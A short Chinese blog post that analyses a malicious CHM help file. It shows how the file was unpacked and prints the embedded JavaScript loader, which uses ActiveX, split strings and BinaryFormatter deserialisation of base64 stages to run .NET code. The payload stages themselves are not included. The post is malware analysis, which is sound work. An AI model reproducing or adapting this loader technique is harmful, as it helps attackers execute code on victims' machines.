

# chm样本分析

如果说上一篇文章是认真写的，那这一篇百分百属于，，摸鱼的内容了。

单纯的记录一下chm无文件攻击（吐槽 这样本是无文件转有文件攻击了X）如何分析吧

由于chm使用了 [LZX](https://en.wikipedia.org/wiki/LZX) 进行数据压缩，所以我们可以用7zip来看看里面都有什么（灵车



里面似乎有个html，打开后发现是js脚本。


```js
<script>
function Base64ToStream(b,l) {
	var enc = new ActiveXObject("System.Text.ASCII"+"Encoding");
	var length = enc.GetByteCount_2(b);
	var ba = enc.GetBytes_4(b);
	var transform = new ActiveXObject("System.Security.Cryptography.FromBase"+"64Transform");
	ba = transform.TransformFinalBlock(ba, 0, length);
	var ms = new ActiveXObject("System.IO.Memory"+"Stream");
	ms.Write(ba, 0, l);
	ms.Position = 0;
	return ms;
}
try {
	var shell = new ActiveXObject('WScript.Shell');
	ver = 'v4.0.30319';
	
	try {
		//throw 1;
		shell.RegRead('HKLM\\SOFTWARE\\Microsoft\\.NETFramework\\v4.0.30319\\');
	} catch(e) { 
		stage_1 = stage_3;
		stage_1_len = stage_3_len;
		ver = 'v2.0.50727';
	}
	//shell.Popup("", 0, ver, 64);
	shell.Environment('Process')('COMPLUS_Version') = ver;

	var ms_1 = Base64ToStream(stage_1, stage_1_len);
	var fmt_1 = new ActiveXObject('System.Runtime.Serialization.Formatters.Bi'+'nary.BinaryFormatter');
	fmt_1.Deserialize_2(ms_1);
} catch (e) {
	try{		
		var ms_2 = Base64ToStream(stage_2, stage_2_len);
		var fmt_2 = new ActiveXObject('System.Runtime.Serialization.Formatters.Bi'+'nary.BinaryFormatter');
		fmt_2.Deserialize_2(ms_2);
	}catch (e2){}
}
})();
</script>
```

剩下内容与[VBE样本分析](https://blog.lenxy.net/2023/10/30/Analysis-of-vbe-virus/)一致了，衍生物也是一样的。只不过白加黑我实在解不明白了，放弃挣扎。
